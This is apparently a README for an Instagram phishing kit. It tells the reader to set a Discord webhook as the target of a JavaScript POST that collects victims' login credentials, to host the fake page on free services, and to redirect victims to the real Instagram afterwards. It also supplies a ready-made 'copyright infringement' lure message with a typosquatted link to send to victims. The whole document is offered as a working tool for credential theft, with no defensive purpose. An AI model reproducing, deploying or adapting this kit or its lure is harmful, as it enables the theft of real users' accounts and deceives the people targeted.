 # zamphian
Usage :

My Instagram phishing page is really easy to use, you only have to replace WEBHOOK on line 101 by your Discord webhook
request.open("POST", "Webhook");

Next, you upload it to your website (like Netlify or 000webhost, they are free)
When someone will login you will receive his credentials and he will be redirected to the official Insta login page. (the one in the link, you can change it by editing the link and the js part in HTML on line 108).
window.location.replace("https://instagram.com/p/CR8V_TNF4gW/");



send this msg directly to the victim. 
 
Hi Instagram User!

copyright infringement!
Copyright violation has been detected in a post on your account.
if you think copyright infringement is wrong, you should provide feedback. Otherwise, your account will be closed within 24 hours. You can give feedback using the link below. Thank you for your understanding.

Copyright Form
https://lnstaagram.netlify.app/

To send phishing link via email
download Instagram_Landing_Page.html connect it through a web page.
In line 90 just replace https://lnstaagram.netlify.app/  with your phishing link.
